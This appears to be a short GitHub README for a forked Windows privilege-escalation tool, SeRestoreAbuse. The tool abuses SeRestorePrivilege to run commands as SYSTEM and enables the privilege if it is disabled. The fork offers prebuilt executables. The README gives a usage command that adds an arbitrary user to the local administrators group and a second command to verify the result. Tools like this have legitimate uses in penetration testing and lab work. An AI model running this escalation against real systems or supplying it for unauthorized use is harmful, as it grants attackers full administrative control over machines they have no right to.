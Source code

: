 # SeRestoreAbuse
SeRestoreAbuse Executes a command as SYSTEM when SeRestorePrivilege is assigned. In case it's disabled, the program will enable it for you.

Credit goes to xct <3. this is the main repo : https://github.com/xct/SeRestoreAbuse

This repo is a forked version that includes the prebuilt compiled exes to avoid manual compilation.

### Usage
```powershell
.\SeRestoreAbuse.exe "cmd /c net localgroup administrators <usernametobeaddedtoadministratorgrouphere> /add"
```
### Validate if it worked or not
```powershell
net users <username>
```

